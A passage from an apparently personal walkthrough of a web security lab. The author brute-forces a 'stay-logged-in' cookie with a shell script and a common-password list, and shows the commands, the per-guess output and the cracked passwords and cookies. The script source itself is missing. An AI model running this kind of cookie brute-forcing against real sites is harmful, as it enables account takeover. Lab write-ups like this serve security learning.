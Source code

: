 ```shell
```

In this way I need automatizate the process to check every password in a list, in this case I used the [SecLists 10k most common password](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt) And the correct password will be the one to get a `200` http status code.


I wrote the script  `passwordBruteforceCookie.sh` . which has the username like argument. If I test it with `wiener` i get `peter`:

```shell
./passwordBruteforceCookie.sh carlos > output.txt   
```

I redirect the script STDOUT to the `output.txt` file. In this way I can save the total data and analize it. In this case in another shell I use `tail`  to see the last lineas and use `-f`  switch  to interactive see each update.

```shell
tail output.txt -f 
- [ ] 302 | time:3.931265 | bytes:13 | lines:2 | guess:voodoo                                                                                                     302 | time:3.937863 | bytes:13 | lines:2 | guess:voyager                                                                                                    302 | time:3.903246 | bytes:13 | lines:2 | guess:apple                                                                                                      302 | time:3.913936 | bytes:13 | lines:2 | guess:rush2112                                                                                                   302 | time:3.907594 | bytes:13 | lines:2 | guess:beer                                                                                                       200 | time:3.935277 | bytes:3069 | lines:62 | guess:peter                                                                                                   Find it! password: peter
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw 
```

Once verified that the script works. Only execute it again with the `carlos` username:

```shell
./passwordBruteforceCookie.sh carlos >output.txt   
```

```shell
tail output.txt -f 
302 | time:16.579290 | bytes:14 | lines:2 | guess:secret                                                                                                    302 | time:16.608152 | bytes:14 | lines:2 | guess:cowboy                                                                                                    302 | time:16.646440 | bytes:14 | lines:2 | guess:diamond                                                                                                   302 | time:16.637529 | bytes:14 | lines:2 | guess:yellow                                                                                                    200 | time:16.622343 | bytes:5047 | lines:86 | guess:asdfgh                                                                                                 302 | time:16.652966 | bytes:14 | lines:2 | guess:richard                                                                                                   Find it! password: asdfgh                                                                                                                                   Cookie: stay-logged-in=Y2FybG9zOmExNTJlODQxNzgzOTE0MTQ2ZTRiY2Q0ZjM5MTAwNjg2 
```

